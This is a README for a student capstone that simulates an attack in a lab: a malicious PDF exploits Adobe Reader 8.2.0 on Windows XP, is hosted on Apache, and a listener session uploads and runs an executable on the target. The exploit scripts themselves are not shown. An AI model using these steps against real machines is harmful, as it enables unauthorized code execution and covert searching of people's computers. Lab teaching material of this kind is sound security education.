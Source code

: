 # CyberEffects_IPDIMG
CyberEffects Capstone - Intellectual Property Defense via Illegal Methods Group (IPDIMG)

This is a simulation of a legally questionable way of determining whether intellectual property was not properly deleted after employment termination. Our capstone utilizes a vulnerability in Adobe Reader ver. 8.2.0 where payloads can be embedded into a .pdf file, and executed once opened in the vulnerable PDF reader. With this initial

## Vulnerable Target

Windows XP OS with Adobe Reader ver. 8.2.0 installed

Link to the vulnerable Adobe Reader ver. 8.2.0 [here](http://www.oldversion.com/windows/acrobat-reader-8-2-0)

Free Windows XP .iso file [here](https://eprebys.faculty.ucdavis.edu/2020/04/08/installing-windows-xp-in-virtualbox-or-other-vm/#:~:text=The%20product%20key%20is%20now,Mac%20can%20be%20found%20here.)

## Setting up Apache2 server to host malicious PDF

1. Install apache2

2. Copy the index.html to the '/var/www/html' directory

3. Run 'sudo systemctl start apache2' to start the server

4. File can be downloaded at http://***(host network IP)***:80

          Use 'ip addr show' and locate the host network IP

## Setting up and running any of the shell scripts

          chmod +x <script name>

          ./<script name>

## General Steps

1. Begin by generating the malicious PDF and generate encrypted archive file by generating the exe of 'generate_malicious_pdf.sh'.
  
          chmod +x generate_malicious_pdf.sh
  
          ./generate_malicious_pdf.sh

2. Start listener by running the listener.sh script
  
          chmod +x listener.sh
          
          ./listener.sh
  
3. Upload the upload_exe.rc file to the target machine via session
  
          sessions -i 1
  
          upload upload_exe.rc
  
4. Run the resource script in order to upload and run the executable
  
          resource upload_exe.rc
